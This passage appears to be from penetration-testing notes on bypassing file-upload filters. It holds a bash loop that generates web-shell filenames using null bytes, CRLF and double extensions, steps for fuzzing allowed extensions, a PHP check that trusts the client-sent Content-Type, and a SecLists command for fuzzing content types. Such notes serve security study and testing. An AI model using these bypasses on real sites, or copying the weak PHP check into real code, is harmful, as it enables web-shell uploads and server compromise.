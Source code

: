 ### **Character Injection**

**Generates permutations of the file name**

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

### Example Attack (White List)

1.- Test and find out allowed extensions.

2.- With Allowed Extensions try to use Reverse Double Extension 

**`fuzzing: shell.FUZZ.jpg, with jpg as allowed extension`**

## **Type Filters**

Only testing the file extension is not enough to prevent file upload attacks

### **Content-Type**

**Source Code**

```php
$type = $_FILES['uploadFile']['type'];

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

**Fuzzing Content Type**

```bash
cat SecList/Miscellaneous/Web/content-type.txt | grep 'image/' > image-content-types.txt
```

![FU_image10.png](../Images/FU_image10.png)
